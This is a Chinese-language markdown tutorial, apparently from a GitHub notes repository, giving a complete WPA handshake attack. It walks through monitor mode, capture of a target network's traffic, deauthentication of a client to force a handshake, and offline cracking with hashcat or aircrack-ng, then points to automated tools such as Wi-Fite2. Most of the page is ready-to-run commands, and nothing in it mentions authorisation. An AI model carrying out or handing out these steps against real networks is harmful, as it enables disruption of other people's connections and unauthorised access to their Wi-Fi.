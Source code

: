 # WPA 握手包攻击

## 手动

1. 查看網絡設備, 獲取無線網卡名稱.

    ```sh
    iwconfig
    ```

2. 開啓無線網卡監聽模式.

    ```sh
    sudo airmon-ng start wlan0
    ```

    若设备被占用, 执行下列命令来结束占用设备的进程:  

    ```sh
    sudo airmon-ng check kill
    ```

    開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

    !!! warning
        監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 Wi-Fi 信號.

    ```sh
    sudo airodump-ng wlan0mon
    ```

    當發現目標 Wi-Fi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 Wi-Fi 通信內容.

    ```sh
    sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
    ```

5. 斷開指定設備與指定 Wi-Fi 的鏈接.

    ```sh
    sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
    ```

    目標設備從指定 Wi-Fi 斷開鏈接後將嘗試重連, 會向路由器發送握手包. 而第 4 步將會捕獲這個握手包.

6. 當第 4 步提示捕獲握手包時按下 `Ctrl+C` 結束監聽.

    此時, 握手包的數據已經被記錄在第4步指定的 `.cap` 文件中.

7. 對 `.cap` 文件中握手包的 hash 進行破解.

    - 使用 Hashcat. (推薦)

        ```sh
        aircrack-ng [.cap存檔文件] -j [.haccpx文件名称] # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
        hashcat -m 2500 -a 0 [.hccapx文件] [字典文件]   # 利用 hashcat 進行破解
        ```

    - 使用 aircrack-ng.

        ```sh
        aircrack-ng [.cap存檔文件] -w [字典文件]
        ```

8. 關閉無線網卡監聽模式.

    ```sh
    sudo airmon-ng stop wlan0mon
    ```

    若第 2 步中结束的进程没有自动恢复, 则需要手动启动.

## 自动化

可以利用 Airgeddon/[Wi-Fite2](https://github.com/derv82/Wi-Fite2)/[WEF](https://github.com/D3Ext/WEF) 等工具来简化上面的流程.  

![Wi-Fite2 WAP Handshake attack](https://camo.githubusercontent.com/241679fd57d09ce160bbaf04886b896d1d101d405fc4d692954beefc8e477a07/68747470733a2f2f692e696d6775722e636f6d2f4636565068626d2e676966)
